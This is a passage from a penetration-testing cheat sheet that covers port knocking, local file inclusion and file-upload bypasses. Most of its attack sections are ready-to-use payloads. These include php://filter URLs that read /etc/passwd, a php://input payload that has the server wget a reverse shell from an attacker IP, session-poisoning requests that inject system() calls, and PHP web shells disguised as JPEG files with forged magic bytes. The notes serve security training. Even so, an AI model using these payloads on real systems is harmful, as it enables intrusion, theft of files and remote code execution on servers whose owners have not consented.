`Rubberglue <https://github.com/adhdproject/adhdproject.github.io/blob/master/Tools/Rubberglue.md>`_ : We can use Rubberglue to listen on a port such that any traffic it receives on that port it will forward back to the client ( attacker ) on the same port.

::

  python2 /opt/honeyports/honeyports-0.4.py -p 23

Knockd
------

`Knockd - Port-knocking server <http://www.zeroflux.org/projects/knock>`_ : knockd is a port-knock server. It listens to all traffic on an ethernet (or PPP) interface, looking for special "knock" sequences of port-hits. A client makes these port-hits by sending a TCP (or UDP) packet to a port on the server. This port need not be open -- since knockd listens at the link-layer level, it sees all traffic even if it's destined for a closed port. When the server detects a specific sequence of port-hits, it runs a command defined in its configuration file. This can be used to open up holes in a firewall for quick access.

If there is port knocking involved, read the /etc/knockd.conf, read the sequence port know should be done and execute

::

 for PORT in 43059 22435 17432; do nmap -PN 192.168.56.203 -p $PORT; done

DCEPT
-----

SecureWorks researchers have created a solution known as `DCEPT (Domain Controller Enticing Password Tripwire) <https://www.secureworks.com/blog/dcept>`_ to detect network intrusions. Github is `dcept <https://github.com/secureworks/dcept>`_ 

Useful Tools
============

* `exe2hex <https://github.com/g0tmi1k/exe2hex>`_ : Inline file transfer using in-built Windows tools (DEBUG.exe or PowerShell). 

* `Powercat <https://github.com/secabstraction/PowerCat>`_ : A PowerShell TCP/IP swiss army knife that works with Netcat & Ncat

Appendix-I : Local File Inclusion
=================================

Local File Inclusion (LFI) is a type of vulnerability concerning web server. It allow an attacker to include a local file on the web server. It occurs due to the use of not properly sanitized user input.

Tools
-----

To test LFI, RFI, we can also use `Uniscan <http://tools.kali.org/web-applications/uniscan>`_ Uniscan is a simple Remote File Include, Local File Include and Remote Command Execution vulnerability scanner. 

::

  uniscan -h
  OPTIONS:
    -h  help
    -u  <url> example: https://www.example.com/
    -f  <file> list of url's
    -b  Uniscan go to background
    -q  Enable Directory checks
    -w  Enable File checks
    -e  Enable robots.txt and sitemap.xml check
    -d  Enable Dynamic checks
    -s  Enable Static checks
    -r  Enable Stress checks
    -i  <dork> Bing search
    -o  <dork> Google search
    -g  Web fingerprint
    -j  Server fingerprint

  usage:
  [1] perl ./uniscan.pl -u http://www.example.com/ -qweds
  [2] perl ./uniscan.pl -f sites.txt -bqweds
  [3] perl ./uniscan.pl -i uniscan
  [4] perl ./uniscan.pl -i "ip:xxx.xxx.xxx.xxx"
  [5] perl ./uniscan.pl -o "inurl:test"
  [6] perl ./uniscan.pl -u https://www.example.com/ -r

There's another tool called `fimap <https://tools.kali.org/web-applications/fimap>`_. However, it is better to check the source of uniscan for LFI and see what it is trying and try that with curl specially if cookies are required to set (in case of authenticated LFI). Personally, I tried Uniscan and for some reason cookie feature was not working and fimap only support POST parameter in cookie no GET.

.. Note :: Also, if we have unprivileged user shell or an ability to store a file somewhere in the filesystem, however don't have permission to write in /var/www/html but does have LFI, we can still write (php meterpreter shell) in /tmp or user home directory and utilize LFI to get a reverse shell.

Filtering in LFI
^^^^^^^^^^^^^^^^

Sometimes, there might be some filtering applied by default. For example: filename=secret.txt, here it is possible that it will only read files named secret.txt or with extension .txt. So, may be rename your payload accordingly. 

For example: the below code only includes the file which are named secret
::

 <?php
   $file = @$_GET['filname'];
   if(strlen($file) > 55)
      exit("File name too long.");
   $fileName = basename($file);
   if(!strpos($file, "secret"))
     exit("No secret is selected.");
   echo "<pre>";
   include($file);
   echo "</pre>";
 ?>

LFI to Remote Code Execution
----------------------------

Mainly taken from `LFI-Cheat-Sheet <https://highon.coffee/blog/lfi-cheat-sheet/>`_ , `Exploiting PHP File Inclusion – Overview <https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/>`_ and `Upgrade from LFI to RCE via PHP Sessions <https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/>`_

There are variety of different tricks to turn your LFI into RCE. Using 

File upload forms/ functions
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Figure out if there are any upload forms or functions, we will upload your malicious code to the victim server, which can be executed.

PHP wrapper expect://command
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Allows execution of system commands via the php expect wrapper, unfortunately this is not enabled by default.

An example of PHP expect:

::

 http://IP/fileincl/example1.php?page=expect://ls

If PHP expect wrapper is disabled, below error is encountered.

::

 Warning: include(): Unable to find the wrapper "expect" - did you forget to enable it when you<br> configured PHP? in /var/www/fileincl/example1.php on line 7 
 Warning: include(): Unable to find the<br> wrapper "expect" - did you forget to enable it when you configured PHP? in <br> /var/www/fileincl/example1.php on line 7 
 Warning: include(expect://ls): failed to open stream: No such file or directory in /var/www/fileincl/example1.php on line 7 
 Warning: include(): Failed opening 'expect://ls' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/fileincl/example1.php on line 7

PHP wrapper php://file
^^^^^^^^^^^^^^^^^^^^^^
PHP wrapper php://filter
^^^^^^^^^^^^^^^^^^^^^^^^

php://filter is a kind of meta-wrapper designed to permit the application of filters to a stream at the time of opening. This is useful with all-in-one file functions such as readfile(), file(), and file_get_contents() where there is otherwise no opportunity to apply a filter to the stream prior the contents being read.

The output is encoded using base64, so you’ll need to decode the output.

::

 http://IP/fileincl/example1.php?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd

or

We could use php filter to read the source code of a PHP File

:: 

  http://xqi.cc/index.php?m=php://filter/read=convert.base64-encode/resource=index.php

More information can be found at `Using PHP for file inclusion <https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/>`_

PHP input:// stream
^^^^^^^^^^^^^^^^^^^

php://input allows you to read raw POST data. It is a less memory intensive alternative to $HTTP_RAW_POST_DATA and does not need any special php.ini directives. php://input is not available with enctype=”multipart/form-data”.

Send your payload in the POST request using curl, burp.

Example:

::

 http://IP/fileincl/example1.php?page=php://input


Post Data payload:

::

  <? system('wget http://IP/php-reverse-shell.php -O /var/www/shell.php');?>

After uploading execute the reverse shell at 

::

 http://IP/shell.php

data://text/plain;base64,command
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

/proc/self/environ
^^^^^^^^^^^^^^^^^^

If it’s possible to include /proc/self/environ from your vulnerable LFI script, then code execution can be leveraged by manipulating the User Agent parameter with Burp. After the PHP code has been introduced /proc/self/environ can be executed via your vulnerable LFI script.

/proc/self/fd
^^^^^^^^^^^^^

If it’s possible to introduce code into the proc log files that can be executed via your vulnerable LFI script. Typically you would use burp or curl to inject PHP code into the referer.

This method is a little tricky as the proc file that contains the Apache error log information changes under /proc/self/fd/ e.g. /proc/self/fd/2, /proc/self/fd/10 etc. 
Utilize `LFI-LogFileCheck.txt <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion%20-%20Path%20Traversal/Intruders/LFI-LogFileCheck.txt>`_ with Burp Intruder, and check for the returned page sizes.

Control over PHP Session Values
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Let's say, a vulnerable page is present with the post request

::

 POST /upload/? HTTP/1.1
 Host: vulnerable.redacted.com
 User-Agent: Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/20100101 Firefox/36.04
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 Accept-Language: en-US,en;q=0.5
 Content-Type: application/x-www-form-urlencoded
 Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27
 Content-Length: 44
 Connection: close
 Upgrade-Insecure-Requests: 1
 
 login=1&user=admin&pass=admin&lang=en_us.php

with LFI

::

 login=1&user=admin&pass=admin&lang=../../../../../../../../../../etc/passwd

Now, the server store cookies

::

 Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
 Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
 Set-Cookie: pass=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly

As we know PHP5 stores it’s session files by default under /var/lib/php5/sess_[PHPSESSID]. (If not, do check phpinfo and figure out the location of temp files) – so the above issued session “i56kgbsq9rm8ndg3qbarhsbm27” would be stored under /var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27

Now, we can write the cookie with a php command

::

 POST /upload/? HTTP/1.1
 Host: vulnerable.redacted.com
 User-Agent: Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/20100101 Firefox/36.04
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 Accept-Language: en-US,en;q=0.5
 Content-Type: application/x-www-form-urlencoded
 Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27
 Content-Length: 134
 Connection: close
 Upgrade-Insecure-Requests: 1

 login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php

This would result in 

::

 Set-Cookie: user=%3C%3Fphp+system%28%22cat+%2Fetc%2Fpasswd%22%29%3B%3F%3E; expires=Mon, 13-Aug-2018 20:40:53 GMT; path=/; httponly

Now, the php command can be executed using

::

 POST /upload/? HTTP/1.1
 Host: vulnerable.redacted.com
 User-Agent: Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/20100101 Firefox/36.04
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 Accept-Language: en-US,en;q=0.5
 Content-Type: application/x-www-form-urlencoded
 Content-Length: 141
 Connection: close
 Upgrade-Insecure-Requests: 1

 login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27

The session file could again afterwards be included using the LFI (note that you need to remove the cookie from the request, otherwise it would get overwritten again and the payload would fail)

Email Server 
^^^^^^^^^^^^


Appendix-II File Upload
=======================

Examples
--------

Simple File Upload
^^^^^^^^^^^^^^^^^^

Intercepting the request in Burp/ ZAP and changing the file-extension.

Below is the PHP code

::

  <?  

  function genRandomString() { 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
    } 

    return $string; 
  } 

  function makeRandomPath($dir, $ext) { 
    do { 
    $path = $dir."/".genRandomString().".".$ext; 
    } while(file_exists($path)); 
    return $path; 
  } 

  function makeRandomPathFromFilename($dir, $fn) { 
    $ext = pathinfo($fn, PATHINFO_EXTENSION); 
    return makeRandomPath($dir, $ext); 
  } 

  if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded"; 
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
  } else { 
  ?> 
  <form enctype="multipart/form-data" action="index.php" method="POST">  
  <input type="hidden" name="MAX_FILE_SIZE" value="1000" />  
  <input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />  
  Choose a JPEG to upload (max 1KB):<br/>  
  <input name="uploadedfile" type="file" /><br />  
  <input type="submit" value="Upload File" />  
  </form>  
  <? } ?>   

If we change the extension of filename tag from JPG to PHP, we may be able to execute code remotely.

* Create a fake JPG containing php code.

  We’ll be using system() to read our password.

 ::

   echo "<?php system($_GET["cmd"]); ?>" > shell.jpg  

* Upload JPG, intercept in Burp/ ZAP and change the extension

 ::

   <input name="filename" value="o0xn5q93si.jpg" type="hidden">  

  is changed to

 ::

  <input name="filename" value="o0xn5q93si.php" type="hidden">  

Simple File Upload - With verifying image type
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

In this the above PHP code remain almost the same apart from little addition that we check the filetype of the file uploaded

::

  <?php  
  ...  
  
  else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {  
        echo "File is not an image";  
    }  
  
  ...  
  
  ?> 

Since the exif_imagetype function checks the filetype of the uploaded file. It checks the first bytes of an image are against a signature. Most filetypes such as JPEG, ZIP, TAR, etc. have a "Magic Number" at the beginning of the file to help verify its file type. So to pass the exif_imagetype function check, our file must start with the magic number of a supported image format.

* Take a valid file (JPG or whichever file format, we are trying to bypass), take the valid hexdump of that file (Let's say first 100 bytes)

 ::

   hexdump -n 100 -e '100/1 "\\x%02X" "\n"' sunflower.jpg

   -n length         : Interpret only length bytes of Input
   -e format_string  : Specify a format string to be used for displaying data

 Example:
 
 ::

   hexdump -n 100 -e '100/1 "\\x%02X" "\n"' sunflower.jpg
   \xFF\xD8\xFF\xE0\x00\x10\x4A\x46\x49\x46\x00\x01\x01\x01\x01\x2C\x01\x2C\x00\x00\xFF\xE1\x00\x16\x45\x78\x69\x66\x00\x00\x4D\x4D\x00\x2A\x00\x00\x00\x08\x00\x00\x00\x00\x00\x00\xFF\xDB\x00\x43\x00\x05\x03\x04\x04\x04\x03\x05\x04\x04\x04\x05\x05\x05\x06\x07\x0C\x08\x07\x07\x07\x07\x0F\x0B\x0B\x09\x0C\x11\x0F\x12\x12\x11\x0F\x11\x11\x13\x16\x1C\x17\x13\x14\x1A\x15\x11\x11\x18\x21\x18\x1A\x1D\x1D\x1F
  
* Create a file with JPG header and command shell code using python

  ::

   >>> fh = open('shell.php','w')  
   >>> fh.write('The Hexdump from above \xFF\xD8\xFF\xE0' + '<? passthru($_GET["cmd"]); ?>')  
   >>> fh.close()   

.. Tip :: Do check the source code of the page for any client-side file validation or any commented hidden parameters?

.. disqus::
